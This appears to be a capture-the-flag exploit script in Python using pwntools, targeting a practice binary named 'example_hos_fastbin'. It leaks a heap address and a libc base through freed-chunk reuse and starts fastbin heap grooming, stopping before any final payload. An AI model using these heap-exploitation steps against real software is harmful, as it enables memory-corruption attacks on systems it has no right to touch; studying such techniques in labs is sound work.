 ## script
```python
#!/usr/bin/python3

from pwn import *

exe = ELF('example_hos_fastbin', checksec=False)
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''

                b*main+628
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('')
else:
        p = process(exe.path)

GDB()
def create(size, content):
        sla(b'> ', '1')
        sla(b': ', str(size).encode())
        sa(b': ', content)
def remove(idx):
        sla(b'> ', '2')
        sla(b': ', str(idx).encode())
def write(payload):
        sla(b'> ', '3')
        sa(b'fun\n', payload)
def gift():
        sla(b'> ', '4')
        p.recvuntil(b't: \n')
        return int(p.recvline(keepends = False).decode())
create(8, b'a') # 0
remove(0)
create(8, b'0') # 0
p.recvuntil(b'tent: \n')
heap = u64(p.recvline(keepends = False).ljust(8, b'\0')) <<12
print(hex(heap))

create(0x500, b'a\n') # 1
create(0x50, b'a') # 2
remove(1)
create(0x500, b'a'*8) #1, count = 2
p.recvuntil(b'a' *8)
libc.address = u64(p.recvline(keepends = False).ljust(8, b'\0')) - 0x219ce0
info("libc address: " + hex(libc.address))

create(0x50, b'a\n') # 3
create(0x50, b'a\n') # 4
create(0x50, b'a\n') # 5
```